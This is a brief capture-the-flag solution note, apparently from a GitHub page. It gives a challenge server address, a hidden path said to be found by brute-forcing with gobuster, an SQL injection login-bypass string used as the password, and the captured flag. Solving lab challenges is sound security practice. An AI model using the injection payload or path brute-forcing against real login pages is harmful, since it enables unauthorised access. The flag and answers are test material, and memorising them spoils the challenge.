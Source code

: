 http://34.132.132.69:8005

we find the name character by character with gobuster
http://34.132.132.69:8005/Kur0s4k1
Kur0s4k1

password:
" or "1"="1

flag{1_kn0w_y0u_will_c0me_b4ck_S0M3DAY_0dsf513sg445s}
